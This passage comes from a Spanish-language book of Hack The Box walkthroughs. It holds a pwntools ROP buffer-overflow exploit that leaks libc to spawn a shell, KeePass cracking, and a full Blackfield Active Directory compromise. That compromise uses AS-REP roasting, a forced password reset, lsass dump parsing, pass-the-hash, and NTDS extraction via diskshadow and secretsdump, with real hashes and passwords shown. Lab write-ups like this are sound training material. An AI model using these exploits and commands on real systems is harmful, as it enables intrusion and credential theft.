\CommentTok{#!/usr/bin/python3}

\CommentTok{# Libc leaked}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\NormalTok{context(terminal}\OperatorTok{=}\NormalTok{[}\StringTok{'tmux'}\NormalTok{, }\StringTok{'new-window'}\NormalTok{])}
\NormalTok{context(os}\OperatorTok{=}\StringTok{'linux'}\NormalTok{, arch}\OperatorTok{=}\StringTok{'amd64'}\NormalTok{)}

\NormalTok{p }\OperatorTok{=}\NormalTok{ remote(}\StringTok{"10.10.10.147"}\NormalTok{, }\DecValTok{1337}\NormalTok{)}
\CommentTok{# p = gdb.debug('./myapp', 'b *main')}

\NormalTok{junk }\OperatorTok{=}\NormalTok{ (}\StringTok{"A"}\OperatorTok{*}\DecValTok{120}\NormalTok{).encode()}

\CommentTok{# gef➤  ropper --search "pop rdi"}
\CommentTok{# 0x000000000040120b: pop rdi; ret; }

\NormalTok{pop_rdi }\OperatorTok{=}\NormalTok{ p64(}\BaseNTok{0x40120b}\NormalTok{)}

\CommentTok{# objdump -D ./myapp | grep "system"}
\CommentTok{# 0000000000401040 <system@plt>:}
\CommentTok{#   401040:       ff 25 da 2f 00 00       jmpq   *0x2fda(%rip)        # 404020 <system@GLIBC_2.2.5>}
\CommentTok{#   40116e:       e8 cd fe ff ff          callq  401040 <system@plt>}

\NormalTok{system_plt }\OperatorTok{=}\NormalTok{ p64(}\BaseNTok{0x401040}\NormalTok{)}
\NormalTok{main }\OperatorTok{=}\NormalTok{ p64(}\BaseNTok{0x40115f}\NormalTok{)}
\NormalTok{got_puts }\OperatorTok{=}\NormalTok{ p64(}\BaseNTok{0x404018}\NormalTok{)}

\NormalTok{payload }\OperatorTok{=}\NormalTok{ junk }\OperatorTok{+}\NormalTok{ pop_rdi }\OperatorTok{+}\NormalTok{ got_puts }\OperatorTok{+}\NormalTok{ system_plt }\OperatorTok{+}\NormalTok{ main }\CommentTok{# system("whoami")}

\BuiltInTok{print}\NormalTok{(p.recvline())}
\NormalTok{p.sendline(payload)}
\NormalTok{leak_puts }\OperatorTok{=}\NormalTok{ u64(p.recvline().strip()[}\DecValTok{7}\NormalTok{:}\OperatorTok{-}\DecValTok{11}\NormalTok{].ljust(}\DecValTok{8}\NormalTok{, }\StringTok{"}\CharTok{\textbackslash{}x00}\StringTok{"}\NormalTok{.encode()))}

\NormalTok{log.info(}\StringTok{"Leaked puts address: }\SpecialCharTok\NormalTok{ leak_puts)}

\NormalTok{libc_leaked }\OperatorTok{=}\NormalTok{ leak_puts }\OperatorTok{-} \BaseNTok{0x68f90}
\NormalTok{log.info(}\StringTok{"Leaked libc address: }\SpecialCharTok\NormalTok{ libc_leaked)}
\NormalTok{bin_sh }\OperatorTok{=}\NormalTok{ p64(libc_leaked }\OperatorTok{+} \BaseNTok{0x161c19}\NormalTok{)}

\NormalTok{payload }\OperatorTok{=}\NormalTok{ junk }\OperatorTok{+}\NormalTok{ pop_rdi }\OperatorTok{+}\NormalTok{ bin_sh }\OperatorTok{+}\NormalTok{ system_plt}

\NormalTok{p.recvline()}
\NormalTok{p.sendline(payload)}

\NormalTok{p.interactive()}
\end{Highlighting}
\end{Shaded}

La idea aqui seria de hacer una llamad a nivel de systema para arastrar la direccion de \textbf{puts}. El objetivo detras de esto es poder leakear la direccion para
poder computar la direccion de \textbf{libc}. Esto no permiteria computar una direccion donde este una string de \texttt{/bin/sh}.

Esto se hace poniendo una direccion memoriaa una llamada de systema (esto nos dara un error)

\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{import}\NormalTok{ os}

\NormalTok{os.system(}\StringTok{"whoami"}\NormalTok{)}
\CommentTok{#Output}
\NormalTok{root}

\NormalTok{os.system(}\StringTok{"0x7fbac32bda8"}\NormalTok{)}
\CommentTok{#Output}
\NormalTok{Error Not found.}
\end{Highlighting}
\end{Shaded}

y desde este error, aprovechar de recuperar la direccion de puts. Desde aqui podriamos encontrar todas la direcciones necessarias para ejecutar los comandos que queremos.
Para encontrar las direcciones podemos usar la web de \href{https://libc.nullbyte.cat/?q=puts\%3Af90\&l=libc6_2.24-11\%2Bdeb9u4_amd64}{nullbyte}, podemos encontrar todos
los offsets de los comandos que queremos como el offset de la direccion de \texttt{system} y de la string \texttt{/bin/sh} basada por la direccion de puts.

\begin{itemize}
\tightlist
\item
  la direccion de libc seria la direccion de puts menos el offset de puts de la web
\item
  la direccion de system seria la direccion de libc mas el offset de system
\item
  la direccion de la string \texttt{/bin/sh} seria la direccion de libc mas el offset de str\_bin\_sh
\end{itemize}

\hypertarget{vuln-exploit-gaining-access-27}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-27}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-un-bof-x64}{%
\subsection*{Ganando accesso con un BOF x64}\label{ganando-accesso-con-un-bof-x64}}
\addcontentsline{toc}{subsection}{Ganando accesso con un BOF x64}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ exploit.py}
\CommentTok{#Output}
\NormalTok{$}

\FunctionTok{whoami}\NormalTok{ user}
\FunctionTok{cat}\NormalTok{ /home/user/user.txt}
\end{Highlighting}
\end{Shaded}

Ya tenemos la flag.

\hypertarget{privilege-escalation-24}{%
\section*{Privilege Escalation}\label{privilege-escalation-24}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-33}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-33}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ /home/user}
\end{Highlighting}
\end{Shaded}

Vemos un fichero \texttt{MyPassword.kdbx} y una serie de imagenes. Lo descargamos en nuestra maquina de atacante.

\begin{itemize}
\item
  en la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{which}\NormalTok{ busybox}
\ExtensionTok{busybox}\NormalTok{ httpd -f -p 8000}
\end{Highlighting}
\end{Shaded}
\item
  en la maquina de atacante descargamos con \texttt{wget} todas las imagenes y el fichero \texttt{MyPasswords.kdbx}
\end{itemize}

Intentamos abrir el ficher \texttt{MyPasswords.kdbx} con la utilidad \textbf{keepassxc}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{keepassxc}\NormalTok{ MyPasswords.kdbx}
\end{Highlighting}
\end{Shaded}

Vemos que nos pregunta por una contraseña pero vemos que hay un fichero clave que seria una de las imagenes.
Podemos tratar de recuperar el hash del fichero con \texttt{keepass2john} pero tenemos que tener en cuenta que si hay un fichero
que esta utilizado como seguridad, tenemos que añadir el parametro -k.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{keepass2john}\NormalTok{ MyPasswords.kdbx -k IMG_0545.JPG}
\end{Highlighting}
\end{Shaded}

Como no sabemos exactamente que imagen es la buena, utilizaremos un oneLiner

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{for} \ExtensionTok{IMG}\NormalTok{ in }\VariableTok{$(}\BuiltInTok{echo} \StringTok{"IMG_0545.JPG IMG_0546.JPG IMG_0547.JPG IMG_0548.JPG IMG_0552.JPG IMG_0553.JPG "}\VariableTok{)}\KeywordTok{;} \KeywordTok{do} \ExtensionTok{keepass2john}\NormalTok{ -k }\VariableTok{$IMG}\NormalTok{ MyPasswords.kdbx }\KeywordTok{|} \FunctionTok{sed} \StringTok{"s/Mypasswords/}\VariableTok{$IMG}\StringTok{/"}\KeywordTok{;} \KeywordTok{done} \OperatorTok{>} \ExtensionTok{hashes}
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt hashes}
\end{Highlighting}
\end{Shaded}

Encontramos la contraseña con la imagen 0547. Si abrimos el keepassxc dando la imagen como keyfile y con la contraseña podemos entrar y vemos un directorio
llamado Root Password

ya podemos utilizar el comando \texttt{su\ root} y leer la flag.

\hypertarget{blackfield}{%
\chapter*{Blackfield}\label{blackfield}}
\addcontentsline{toc}{chapter}{Blackfield}

\hypertarget{introduccion-41}{%
\section*{Introduccion}\label{introduccion-41}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Blackfield.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=cIDYqSOlECs}{\includegraphics{https://img.youtube.com/vi/cIDYqSOlECs/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-41}{%
\section*{Enumeracion}\label{enumeracion-41}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-41}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-41}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-41}{%
\subsubsection*{Ping}\label{ping-41}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.192}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-41}{%
\subsubsection*{Nmap}\label{nmap-41}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.192}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.192 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p53,88,135,139,389,445,593,3268,49676 10.10.10.192 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
53 & domain & Domain controller rpcclient null session &\tabularnewline
88 & Kerberos & asproasting attack & lista de usuarios validos\tabularnewline
135 & msrpc & &\tabularnewline
139 & netbios & &\tabularnewline
389 & LDAP & Bloodhound & credenciales\tabularnewline
445 & smb & Null session &\tabularnewline
593 & ncacn\_http & &\tabularnewline
3268 & ldap & &\tabularnewline
5985 & WinRM & evil-winrm & credenciales\tabularnewline
49676 & ncacn\_http & Puertos por defecto de windows &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{buscando-ususarios-con-rpcclient-y-rpcenum-2}{%
\subsection*{Buscando ususarios con rpcclient y rpcenum}\label{buscando-ususarios-con-rpcclient-y-rpcenum-2}}
\addcontentsline{toc}{subsection}{Buscando ususarios con rpcclient y rpcenum}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.192 -N}

\ExtensionTok{rpcclient}\NormalTok{ $}\OperatorTok{>}\NormalTok{ enumdomusers}
\end{Highlighting}
\end{Shaded}

Como no nos deja unumerar cosas con el null session vamos a necesitar credenciales validas para poder hacerlo

\hypertarget{analyzando-el-smb-6}{%
\subsection*{Analyzando el SMB}\label{analyzando-el-smb-6}}
\addcontentsline{toc}{subsection}{Analyzando el SMB}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.192}
\ExtensionTok{smbclient}\NormalTok{ -L 10.10.10.192 -N}
\end{Highlighting}
\end{Shaded}

Vemos que estamos en frente de una maquina Windows 10 Standard de 64 bit pro que se llama \textbf{DC01} en el dominio \textbf{BLACKFIELD.local}.
Añadimos los dominios \texttt{blackfield.local} y \texttt{dc01.blackfield.local} a nuestro \texttt{/etc/hosts}.

Tambien vemos recursos compartidos a nivel de red como:

\begin{itemize}
\tightlist
\item
  ADMIN\$
\item
  C\$
\item
  forensic
\item
  IPC\$
\item
  NETLOGON
\item
  profiles\$
\item
  SYSVOL
\end{itemize}

Usando de la heramienta smbmap, podemos ver si tenemos accessos a estos recursos.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.192 -u }\StringTok{'null'}
\end{Highlighting}
\end{Shaded}

y vemos que denemos accesso con derecho de lectura a los recursos \texttt{profiles\$} y \texttt{IPC\$}. IPC\$ no es un recurso que nos interesa.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbclient}\NormalTok{ //10.10.10.192/profiles$ -N}
\FunctionTok{dir}
\end{Highlighting}
\end{Shaded}

Aqui podemos ver registros que parecen ser directorios de ususarios.

\hypertarget{vulnerability-assessment-28}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-28}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{asproasting-attack-1}{%
\subsection*{Asproasting Attack}\label{asproasting-attack-1}}
\addcontentsline{toc}{subsection}{Asproasting Attack}

Una vez que tenemos un listado de usuarios, podemos hacer un \textbf{asproating attack}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  copiamos todos los usuarios en un fichero llamado users

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nano}\NormalTok{ users_dir}
\ExtensionTok{Ctrl+shift+v}

\FunctionTok{cat}\NormalTok{ users_dir }\KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $1\}'} \OperatorTok{>}\NormalTok{ users}
\FunctionTok{rm}\NormalTok{ users_dir}
\end{Highlighting}
\end{Shaded}
\item
  Con \texttt{GetNPUsers.py} vamos a ver si podemos recuperar un TGT

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{GetNPUsers}\NormalTok{ blackfield.local/ -no-pass -usersfile users }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{"not found"}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Aqui vemos el TGT del usuario \textbf{support}. Esto quiere decir que este usuario tenia el \emph{Don't required pre-auth} seteado. Copiamos todo el hash
del usuario svc-alfresco en un fichero llamado hash y lo crackeamos con John

\hypertarget{crackeando-el-hash-con-john-1}{%
\subsection*{Crackeando el hash con John}\label{crackeando-el-hash-con-john-1}}
\addcontentsline{toc}{subsection}{Crackeando el hash con John}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ -wordlists=/usr/share/wordlists/rockyou.txt hash}
\end{Highlighting}
\end{Shaded}

Aqui encontramos su contraseña. Ya podemos effectuar un Kerberoasting attack. Pero primero, como siempre, credenciales encontradas son
credenciales que checkeamos con crackmapexec

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.192 -u }\StringTok{'support'}\NormalTok{ -p }\StringTok{'#00^BlackKnight'}
\end{Highlighting}
\end{Shaded}

Aprovechamos para ver si nos podemos conectar via winrm.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ winrm 10.10.10.192 -u }\StringTok{'support'}\NormalTok{ -p }\StringTok{'#00^BlackKnight'}
\end{Highlighting}
\end{Shaded}

Aqui vemos que el usuario es valido y que tiene permiso de lectura sobre el directorio \textbf{SYSVOL} y que lo normal seria de buscar si existe un
fichero \texttt{groups.xml}, porque a dentro tienes un \texttt{cpassword=HASH} que contiene un hash que se podria crackear con la heramienta \textbf{gpp-decrypt} pero
Tito no adelanta que no es el caso no se aplicaba.

\hypertarget{kereroasting-attack-1}{%
\subsection*{Kereroasting attack}\label{kereroasting-attack-1}}
\addcontentsline{toc}{subsection}{Kereroasting attack}

Los ataques Kereroasting se pueden manejar con la utilidad \texttt{GetUserSPNs.py}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{GetUserSPNs.py}\NormalTok{ blackfield.local/support:#00^BlackKnight@10.10.10.192 -request -dc-ip 10.10.10.192}
\end{Highlighting}
\end{Shaded}

Esta utilidad nos retorna un mensaje como que no son las buenas credenciales.

\hypertarget{enumeracion-de-usuarios-con-rpcclient}{%
\subsection*{Enumeracion de usuarios con rpcclient}\label{enumeracion-de-usuarios-con-rpcclient}}
\addcontentsline{toc}{subsection}{Enumeracion de usuarios con rpcclient}

Ahora que tenemos credenciales validas, intentamos connectarnos al \texttt{rpcclient}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{"support%#00^BlackKnight"}\NormalTok{ 10.10.10.192}

\OperatorTok{>} \ExtensionTok{rpcclient}\NormalTok{ $}\OperatorTok{>}\NormalTok{ enumdomusers}
\end{Highlighting}
\end{Shaded}

Ahora podemos ver la lista de los usuarios registrados a nivel de systema. Buscamos usuarios del grupo Admins via la busqueda de los diferentes grupos.

\begin{Shaded}
\begin{Highlighting}[]
\OperatorTok{>} \ExtensionTok{rpcclient}\NormalTok{ $}\OperatorTok{>}\NormalTok{ enumdomgroups}
\end{Highlighting}
\end{Shaded}

copiamos el rid del grupo \texttt{Domain\ Admins}

\begin{Shaded}
\begin{Highlighting}[]
\OperatorTok{>} \ExtensionTok{rpcclient}\NormalTok{ $}\OperatorTok{>}\NormalTok{ querygroupmem 0x200}
\end{Highlighting}
\end{Shaded}

Aqui podemos ver el \textbf{rid} del usuario que hace parte del grupo admin.

\begin{Shaded}
\begin{Highlighting}[]
\OperatorTok{>} \ExtensionTok{rpcclient}\NormalTok{ $}\OperatorTok{>}\NormalTok{ queryuser 0x1f4}
\end{Highlighting}
\end{Shaded}

Vemos quel usuario es \textbf{Administrator}, pero lo hacemos para saber si hay otros usuarios administradores pero aqui no es el caso.

\hypertarget{enumeracion-del-systema-con-bloodhound-python-para-ganar-acceso-a-la-maquina}{%
\subsection*{Enumeracion del systema con bloodhound-python para ganar acceso a la maquina}\label{enumeracion-del-systema-con-bloodhound-python-para-ganar-acceso-a-la-maquina}}
\addcontentsline{toc}{subsection}{Enumeracion del systema con bloodhound-python para ganar acceso a la maquina}

Con la utilidad \texttt{bloodhound-python}, podemos enumerar cosas si tener que estar connectado a la maquina victima.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  instalamos bloodhound

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{pip3}\NormalTok{ install bloodhound}
\end{Highlighting}
\end{Shaded}
\item
  lanzamos bloodhound-python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{bloodhound-python}
\ExtensionTok{bloodhound-python}\NormalTok{ -c ALL -u support -p }\StringTok{'#00^BlackKnight'}\NormalTok{ -ns 10.10.10.192 -dc dc01.blackfield.local -d blackfield.local }
\end{Highlighting}
\end{Shaded}

  esto nos crea un reporte en formato json.
\item
  instalamos bloodhound y neo4j

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ apt install neo4j bloodhound}
\end{Highlighting}
\end{Shaded}
\item
  lanzamos neo4j service

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ neo4j console}
\end{Highlighting}
\end{Shaded}
\item
  lanzamos bloodhound

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{bloodhound}\NormalTok{ --no-sandbox }\OperatorTok{&>}\NormalTok{ /dev/null }\KeywordTok{&}
\BuiltInTok{disown}
\end{Highlighting}
\end{Shaded}
\item
  connectamos bloodhound al neo4j database
\item
  Drag \& Drop de los ficheros \textbf{.json} hacia la ventana del bloodhound y en el Analysis tab

  \begin{itemize}
  \tightlist
  \item
    Find Shortest Paths to Domain Admins
  \item
    Find Paths from Kerberoastable Users
  \item
    Find AS-REP Roastable Users
  \end{itemize}
\end{enumerate}

Aqui no vemos gran cosa, lo unico el usuario support que es asreproasteable pero poco mas. Analizamos los nodos de este usuario.
Le damos un clic derecho al usuario y lo seteamos a Mark User as Owned.
Vamos a Node Info y miramos donde hay un 1.

Vemos que el usuario \textbf{support} puede forzar un cambio de contraseña al usuario \textbf{AUDIT2020}

\hypertarget{forzar-un-cambio-de-contraseuxf1a-con-rpcclient}{%
\subsection*{Forzar un cambio de contraseña con rpcclient}\label{forzar-un-cambio-de-contraseuxf1a-con-rpcclient}}
\addcontentsline{toc}{subsection}{Forzar un cambio de contraseña con rpcclient}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{"support%#00^BlackKnight"}\NormalTok{ 10.10.10.192}

\OperatorTok{>} \ExtensionTok{rpcclient}\NormalTok{ $}\OperatorTok{>}\NormalTok{ setuserinfo2 audit2020 24 s4vitar123}\VariableTok{$!}
\end{Highlighting}
\end{Shaded}

Ahora que hemos cambiado la contraseña, lo miramos con \textbf{crackmapexec}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.192 -u }\StringTok{'audit2020'}\NormalTok{ -p }\StringTok{'s4vitar123$!'}
\end{Highlighting}
\end{Shaded}

El cambio de contraseña a sido effectiva y ahora miramos que privilegios tiene en los recursos compartidos tiene a nivel de red.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.192 -u }\StringTok{'audit2020'}\NormalTok{ -p }\StringTok{'s4vitar123$!'}
\end{Highlighting}
\end{Shaded}

Vemos que este usuario tiene privilegios de lectura sobre el directorio \texttt{forensic}. Miramos lo que hay en este directorio.

\hypertarget{vuln-exploit-gaining-access-28}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-28}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-win-rm-2}{%
\subsection*{Ganando accesso con Win-RM}\label{ganando-accesso-con-win-rm-2}}
\addcontentsline{toc}{subsection}{Ganando accesso con Win-RM}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbclient}\NormalTok{ //10.10.10.192/forensic -U }\StringTok{'audit2020%s4vitar123$!'}
\FunctionTok{dir}
\BuiltInTok{cd}\NormalTok{ commands_output}
\ExtensionTok{get}\NormalTok{ domain_users.txt}
\ExtensionTok{get}\NormalTok{ domain_admins.txt}
\BuiltInTok{cd}\NormalTok{ ..}
\BuiltInTok{cd}\NormalTok{ memory_analysis}
\FunctionTok{dir}
\ExtensionTok{get}\NormalTok{ lsass.zip}
\end{Highlighting}
\end{Shaded}

Nos hemos descargados un fichero domain\_users y un fichero domain\_admins. Podemos ver un usuario \textbf{iPownedYourCompany} que nos hace
pensar que esta maquina a sido comprometida anteriormente. Tambien vemos un directorio memory\_analysis y un fichero nos llama la atencion.
Este fichero es el \texttt{lsass.zip}. Nos llama la atencion porque hay una utilidad \texttt{pypykatz} con la cual podriamos ver informaciones relevantes dumpeadas
a nivel de memoria.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{unzip}\NormalTok{ lsass.zip}
\ExtensionTok{pypykatz}\NormalTok{ lsa minidump lsass.DMP}
\end{Highlighting}
\end{Shaded}

Aqui tenemos informaciones como usuarios y contraseña \textbf{NT} hasheadas. Los NT Hashes nos permiten hacer \textbf{PassTheHash} que simplemente seria connectarnos
con el usuario poniendo la contraseña hasheada (No se necesita conocer la contraseña en este caso).

Vemos el hash del usuario Administrator. Controlamos esto con crackmap exec.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.192 -u }\StringTok{'Administrator'}\NormalTok{ -H }\StringTok{'7f1e4ff8c5a8e6b5fcae2d9c0472cd62'}
\end{Highlighting}
\end{Shaded}

Pero vemos que esta credencial no es valida. Vemos otro usuario \texttt{svc\_backup} lo miramos.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.192 -u }\StringTok{'svc_backup'}\NormalTok{ -H }\StringTok{'9659d1d1dcd9250115e2206d9f49400d'}
\end{Highlighting}
\end{Shaded}

Esta credencial esta valida. Intentamos ver si nos podemos conectar con winrm

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ winrm 10.10.10.192 -u }\StringTok{'svc_backup'}\NormalTok{ -H }\StringTok{'9659d1d1dcd9250115e2206d9f49400d'}
\end{Highlighting}
\end{Shaded}

Aqui vemos que este usuario es Pwn3d!

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.192 -u }\StringTok{'svc_backup'}\NormalTok{ -H }\StringTok{'9659d1d1dcd9250115e2206d9f49400d'}

\FunctionTok{whoami} 
\CommentTok{#Output}
\ExtensionTok{blackfield}\NormalTok{\textbackslash{}svc_backup}

\ExtensionTok{ipconfig}
\CommentTok{#Output}
\ExtensionTok{10.10.10.192}
\end{Highlighting}
\end{Shaded}

Estamos conectados como el usuario svc\_backup y podemos leer la flag.

\hypertarget{privilege-escalation-25}{%
\section*{Privilege Escalation}\label{privilege-escalation-25}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-34}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-34}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Users\textbackslash{}Administrator}
\FunctionTok{dir}
\BuiltInTok{cd}\NormalTok{ Desktop}
\FunctionTok{dir}
\BuiltInTok{type}\NormalTok{ root.txt}
\FunctionTok{whoami}\NormalTok{ /priv}
\end{Highlighting}
\end{Shaded}

No podemos todavia leer el \textbf{root.txt}, pero tiene un privilegio muy interesante que es el privilegio \textbf{SeBackupPrivilege}.
Teniendo este privilegio, podriamos hacer una copia (backup) de seguridad de elemento del systema como el \textbf{NTDS} que nos permitirian
recuperar los hashes de los usuarios del systema, entre ellos el usuario Administrator.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}}
\NormalTok{mkdir Temp}
\BuiltInTok{cd}\NormalTok{ Temp}
\ExtensionTok{reg}\NormalTok{ save HKLM\textbackslash{}system system}
\end{Highlighting}
\end{Shaded}

Aqui hacemos una copia del systema que es necesario para posteriormente dumpear los hashes NTLM del fichero \texttt{ntds.dit}. Intentamos copiar
el fichero \texttt{ntds.dit}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{copy}\NormalTok{ C:\textbackslash{}Windows\textbackslash{}NTDS\textbackslash{}ntds.dit ntds.dit}
\CommentTok{#Output}
\ExtensionTok{PermissionDenied}\NormalTok{!}
\end{Highlighting}
\end{Shaded}

Teniendo este privilegio y siguiendo la guia de la web \href{https://pentestlab.blog/tag/diskshadow/}{pentestlab} podemos tirando de robocopy en vez de
copy, copiarnos este fichero. Creamos un fichero llamado example.txt y le ponemos los comandos siguientes.

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{set} \ExtensionTok{context}\NormalTok{ persistent nowriters }
\ExtensionTok{add}\NormalTok{ volume c: alias savialias }
\ExtensionTok{create} 
\ExtensionTok{expose}\NormalTok{ %savialias% z:}
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[} ! {]} NOTAS: Hay que tener cuidado con estos ficheros que enviamos en maquinas windows de siempre poner un espacio al final de cada linia para evitar problemas
\end{quote}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dos2unix}\NormalTok{ example.txt}
\end{Highlighting}
\end{Shaded}

y desde la maquina victima, subimos el fichero

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{upload}\NormalTok{ example.txt}
\ExtensionTok{diskshadow.exe}\NormalTok{ /s example.txt}
\end{Highlighting}
\end{Shaded}

Ya podemos ver que en Z:~hay el mismo contenido que en C:~y si tratamos de copiar el fichero ntds.dit con el comando \texttt{copy\ z:\textbackslash{}Windows\textbackslash{}NTDS\textbackslash{}ntds.dit\ ntds.dit}
nos arastra el mismo error. Pero usando del comando robocopy esto funcciona sin problemas.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{robocopy}\NormalTok{ z:\textbackslash{}Windows\textbackslash{}NTDS . ntds.dit}
\ExtensionTok{download}\NormalTok{ ntds.dit}
\ExtensionTok{download}\NormalTok{ system}
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[} ! {]} NOTAS: Si el download no funcciona, siempre podemos tratar de montar un directorio compartido a nivel de red con \texttt{impacket-smbfolder}
\end{quote}

Ya podemos dumpear el ntds con \texttt{impacket-secretsdump}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-secretsdump}\NormalTok{ -ntds ntds.dit -system system LOCAL}
\end{Highlighting}
\end{Shaded}

Ya podemos ver todos los hashes de los usuarios activos del systema.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ winrm 10.10.10.192 -u }\StringTok{'Administrator'}\NormalTok{ -H 194fb5e5179499be6424d4cd53b99e}
\end{Highlighting}
\end{Shaded}

Pwn3d!!!!

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.192 -u }\StringTok{'Administrator'}\NormalTok{ -H 194fb5e5179499be6424d4cd53b99e}
\FunctionTok{whoami} 
\CommentTok{#Output}
\ExtensionTok{blackfield}\NormalTok{\textbackslash{}administrator}
\end{Highlighting}
\end{Shaded}

Aqui hemos rooteado la maquina y podemos leer la flag.

\hypertarget{friendzone}{%
\chapter*{FriendZone}\label{friendzone}}
\addcontentsline{toc}{chapter}{FriendZone}

\hypertarget{introduccion-42}{%
\section*{Introduccion}\label{introduccion-42}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama FriendZone.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=C5wd5MxNcok}{\includegraphics{https://img.youtube.com/vi/C5wd5MxNcok/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

